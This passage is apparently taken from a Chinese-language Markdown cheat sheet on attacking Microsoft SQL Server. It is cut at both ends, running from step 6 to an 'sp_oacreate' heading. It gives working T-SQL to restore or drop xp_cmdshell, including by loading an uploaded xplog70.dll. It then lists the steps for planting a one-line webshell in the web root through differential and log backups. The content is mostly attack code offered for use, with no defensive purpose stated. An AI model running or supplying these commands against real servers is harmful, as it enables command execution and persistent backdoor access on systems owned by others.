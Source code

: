 6. #### 恢复`xp_cmdshell`（存在 `xplog70.dll` 时）

   ```mssql
   exec master..xp_dropextendedproc xp_cmdshell,@dllname='xplog70.dll' declare @o int;
   ```

7. ####  恢复`xp_cmdshell`（不存在 `xplog70.dll` 时）

   ```mssql
   --自己传一个xplog70.dll
   exec master.dbo.sp_addextendedproc xp_cmdshell,@dllname='C:\绝对路径\xplog70.dll' declare @o int;
   ```

8. #### 删除`xp_cmdshell`

   ```mssql
   exec master..sp_dropextendedproc xp_cmdshell;
   ```

9. ####  写入 `webshell` && 远程下载程序

   #### 差异备份

   ```mssql
   IF EXISTS(select table_name from information_schema.tables where table_name='temp') drop table temp;
   -- 将数据库备份至文件中
   backup database db_name to disk = "目标文件路径.bak";
   -- 创建临时表
   create table test (a image);
   -- 写入木马
   insert into test(a) values('一句话木马');
   -- 重新备份，木马写入文件
   backup database db_name to disk = '目标文件路径.asp' with differential,format;
   ```

   #### 日志差异备份

   ```mssql
   -- 查看要创建的临时表是否被占用
   IF EXISTS(select table_name from information_schema.tables where table_name='temp') drop table temp;
   -- 将数据库的恢复模式设置为完整模式
   alter database db_name set RECOVERY FULL;
   -- 创建临时表
   create table temp (a image);
   -- 备份数据库日志，并写入文件中
   backup log db_name to disk = '目标文件绝对路径.bak' with init;
   --在临时表中插入木马字符串
   insert into temp (a) values ('一句话木马');
   -- 将含有木马字符串的日志备份写入文件中
   backup log db_name to disk = '目标文件绝对路径.aspx';
   ```

#### sp_oacreate

1. #### 检查OLE Automation Procedures状态
